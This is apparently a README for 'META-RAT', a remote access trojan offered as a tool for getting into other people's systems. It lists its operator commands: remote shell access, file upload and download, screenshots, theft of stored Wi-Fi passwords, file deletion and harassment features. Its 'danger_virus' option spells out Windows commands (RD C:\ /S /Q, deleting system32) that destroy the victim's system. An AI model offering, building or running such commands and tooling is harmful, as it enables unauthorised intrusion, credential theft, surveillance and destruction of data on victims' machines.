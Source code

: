 # META-RAT
This Tool is for get access to other systems
And This is the options that ypu can do in taget system : 
pwd : pwd 
---
Upload file : upload_file + (with link)
---
Destroy all the system : danger_virus (Remove Windows and system32) #RD C:\ /S /Q del c:\windows\system32*. * /q del /f /s /q “C:*.
---
Download File : pickup + [name of file] (.txt files)
---
Download Image : download
---
Change Directory : cd (cd + [dir name])
---
Rename File : ren_file_ + [file name] + [your name] (Change the name of the file)
---
Shutdown,Restart : shutdown,restart
---
open link : open_link + http://example.com (open any link in target system)
---
drives list : dir_ls (see the name of the drives)
---
system information : sys_info 
---
file list : ls (see all the file names that you are in drive)
---
Remove file : rm_file + [filename] (delete any files for ever)
---
Hack System Wlans : hackwifi (get name) , getpass_[name]
---
upload txt file : uptxt_ + [your text,dont use space] + [yourname]
---
Access Shell : cmd_+[you text] (For Access CMD)
---
Bad Sound : Badvoice_ + [Time]
---
Speak : say_ + [Your Text]
---
Change Background : chback_ + [Image Link] (Change Desktop Wallpaper)
---
Volume -> 100% : volumeup
---
Volume -> 0% : volumedown
---
Take Screen Shot : screenshot
